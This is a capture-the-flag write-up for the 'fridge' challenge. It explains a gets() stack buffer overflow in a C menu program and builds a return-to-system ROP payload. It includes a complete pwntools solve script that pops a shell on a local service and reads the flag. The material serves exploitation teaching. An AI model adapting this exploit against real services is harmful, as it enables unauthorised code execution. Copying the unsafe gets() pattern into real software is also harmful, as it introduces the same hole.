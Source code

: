 # fridge

We've had a data breach! Our forensics team worked out that there was some weird traffic coming from our new smart refrigerator, and they seem to have found an old debugging service that it's still running...

It's up to you now to work out how they got access to our fridge!

## Solution
We are given the following source code.
```c
#include <stdio.h>
#include <stdlib.h>

const char* config_filepath = "config.txt";

const char* open_message =
    "---------FridgeNet---------\n"
    "FridgeNet v0.3.7\n"
    "\n"
    "Changelog:\n"
    "- Fixed typo in welcome message\n"
    "- Fixed issue that allowed bad actors to get /bin/sh";

const char* options_message =
    "\n\nType:\n"
    "\t1\tDisplay fridge contents\n"
    "\t2\tSet fridge welcome message\n"
    "\t3\tExit\n";

void print_food() {
    puts("Food currently in fridge:");
    system("ls -m food_dir");
}

void set_welcome_message() {
    char buf[32];
    puts("New welcome message (up to 32 chars):");

    gets(buf);

    FILE* conf = fopen(config_filepath, "w");

    if (conf == NULL) {
        puts("Unable to open config file."); // This shouldn't happen
        exit(1);
    }

    fprintf(conf, "welcome_msg: %s", buf);
    fclose(conf);
}

int main() {
    puts(open_message);

    while (1) {
        puts(options_message);
        printf("> ");
        fflush(stdout);

        char choice = getchar();
        while (getchar() != '\n');

        switch (choice) {
            case '1':
                print_food();
                break;
            case '2':
                set_welcome_message();
                break;
            case '3':
                puts("Bye!");
                return 0;
            default:
                puts("Invalid option.");
                break;
        }
    }


    return 0;
}
```

There's a `gets` in `set_welcome_message` so looks like we have a buffer overflow.

Opening the binary in `pwndbg` we can quickly peek at `set_welcome_message` and set a breakpoint at the `ret`.
```asm
pwndbg vuln
Reading symbols from vuln...
(No debugging symbols found in vuln)

pwndbg> disass set_welcome_message 
Dump of assembler code for function set_welcome_message:
   0x08049222 <+0>:	push   ebp
   0x08049223 <+1>:	mov    ebp,esp
   [...]
   0x0804924c <+42>:	push   eax
   0x0804924d <+43>:	call   0x8049060 <gets@plt>
   0x08049252 <+48>:	add    esp,0x10
   [...]
   0x080492be <+156>:	leave
   0x080492bf <+157>:	ret
End of assembler dump.
pwndbg> b *set_welcome_message+157
Breakpoint 1 at 0x80492bf
```

Chucking in a cyclic string and seeing where the `ret` is trying to return to we find that the following payload can control the return pointer.
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa<32 bit address>
```
The changelog has a `/bin/sh` at the end of it. The address of the first `/` is `0x804a09a`, so we have a `/bin/sh` string literal at `0x804a09a`.

`print_food` has a `system()` call in it, so we will jump to this with the address of `/bin/sh` as the next item on the stack (x86 has arguments stored on the stack) to pop a shell.

Grabbing the address of the `system()` call from `pwndbg` we have the following payload

```py
# padding to return pointer
payload = b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa"
payload += p32(0x08049214)      # location of system() call
# in i386 arguments are stored on the stack
payload += p32(0x804a09a)       # location of "/bin/sh" string
```

Now we send it off to get a shell and grab the flag.

> `solve.py`
```py
from pwn import *

# padding to return pointer
payload = b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa"
payload += p32(0x08049214)      # location of system() call
# in i386 arguments are stored on the stack
payload += p32(0x804a09a)       # location of "/bin/sh" string

p = remote("localhost", 1358)   # im running it locally while testing this

print(p.recvuntil(b"> "))
p.sendline(b"2")
print(p.recvuntil(b":\n"))
p.sendline(payload)

p.interactive()
```

> Running exploit

```bash
$ python3 solve.py
[+] Opening connection to localhost on port 1358: Done
b'---------FridgeNet---------\nFridgeNet v0.3.7\n\nChangelog:\n- Fixed typo in welcome message\n- Fixed issue that allowed bad actors to get /bin/sh\n\n\nType:\n\t1\tDisplay fridge contents\n\t2\tSet fridge welcome message\n\t3\tExit\n\n> '
b'New welcome message (up to 32 chars):\n'
[*] Switching to interactive mode
$ ls
config.txt  flag.txt  food_dir	vuln
$ cat flag.txt
pecan{4_ch1ll1ng_d1sc0v3ry!}
```
